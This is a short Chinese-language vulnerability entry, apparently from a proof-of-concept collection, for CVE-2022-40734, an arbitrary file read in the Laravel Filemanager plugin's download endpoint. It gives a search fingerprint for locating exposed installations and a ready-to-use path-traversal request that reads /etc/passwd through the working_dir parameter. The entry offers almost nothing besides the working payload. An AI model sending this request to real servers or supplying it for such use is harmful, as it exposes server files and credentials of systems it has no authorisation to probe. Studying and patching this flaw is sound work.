

# Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

<a-checkbox checked>Laravel Filemanager插件</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Laravel Filemanager"</a-checkbox></br>

## 漏洞复现

主页面


验证POC

```sql
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

